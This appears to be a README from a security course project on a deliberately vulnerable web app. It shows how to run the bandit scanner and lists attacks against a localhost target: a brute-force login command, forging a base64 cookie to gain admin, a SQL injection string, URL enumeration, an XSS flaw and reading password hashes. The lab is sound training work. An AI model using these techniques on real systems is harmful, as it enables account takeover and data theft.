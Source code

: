 # Security-Engineer-Nanodegree-Program-Vulnerable-Web-Application
[image1]: ./images/bruteforce.png
[image2]: ./images/cookie.png
[image3]: ./images/decode.png
[image4]: ./images/encode.png
### Install bandit:
```
 # Using virtualenv
virtualenv venv

source venv/bin/activate

# The wheel is optional, but its always a good idea to install this
pip install wheel
pip install bandit
```

### Run bandit:
```
 bandit -r VulnWebApp -o RESULT-FILE-NAME.txt -f txt
 ```
 
[bandit Scan Results](/RESULT-FILE-NAME.txt)

### Security Report: 
[VWA Project Report](/VWA-Project-Template.docx)  

### Use the bruteforce.py tool for brute force attacks:

```
python bruteforce.py -U test-username.txt -P test-password.txt -d username=^USR^:password=^PWD^ -m POST -f "Login Failed" http://localhost:3000/login
```
![image1]

### Open Browser Developer Tools 
#### FireFox
```
Cmd + Opt + I 
```
#### macOS
```
Option + ⌘ + J 
```

### The Cookie can be manipulated to gain admin rights  
![image2]  

* Decode the cookie with base64
``` 
python performbase64.py -d Mjp1c2Vy
```
![image3]

* Eecode the cookie with base64
```
python performbase64.py 2:user
python performbase64.py 1:admin
```

![image4]
### We can count the customers up if you add customers/id/1 and so an at the end of the URL  

### We can SQLi the customer page with or 1='1  

### There is a XSS vulnerability in the profile section  

### If we put a breakpoint in the getCustomer function, we can see the hashes of the customers